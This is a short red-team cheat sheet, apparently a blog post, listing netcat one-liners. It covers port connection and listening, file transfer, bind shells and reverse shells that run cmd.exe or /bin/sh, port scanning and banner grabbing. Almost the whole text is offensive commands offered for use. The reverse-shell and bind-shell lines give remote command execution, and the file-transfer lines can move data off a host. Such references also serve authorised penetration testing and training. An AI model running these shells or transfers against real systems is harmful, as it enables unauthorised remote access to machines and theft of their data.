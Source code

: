 ```yaml
---
title: Netcat Shells Cheat Sheet
layout: post
category: Red Team
date: 2019-10-9
---
```


# Connect to a TCP Port

```ruby
nc -nv <IP Address> <Port>
```
# Listen on a TCP Port

```perl
nc -lvp <port>
```
# Connect and receive a HTTP Page

```ruby
nc -nv <IP Address> 80
HEAD / HTTP/1.1

```
# Transferring a File
```perl
nc -lvp 4444 >output.txt          # Receiving End
nc -nv <IP Address> < input.txt   # Sending End
```
# Set up a Netcat Bind Shell (Windows)
```ruby
nc -lvp 4444 -e cmd.exe
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Bind Shell (Linux)
```perl
nc -lvp 4444 -e /bin/sh
nc -nv <IP Address> 4444          # Connect to the shell
```
# Set up a Netcat Reverse Shell (Windows)
```ruby
nc -lvp 443                       # Attacker listening for connection
nc -nv <IP Address> 443 -e cmd.exe
``` 
# Set up a Netcat Reverse Shell (Linux)
```perl
nc -lvp 443
nc -nv <IP Address> 443 -e /bin/sh
```

# Netcat as a Port Scanner
```ruby
nc -z <IP Address> <Port Range in abc - xyz format>
```
# Netcat as a Banner Grabber
```perl
echo "" | nc -nv -w1 <IP Address> <Ports>
```

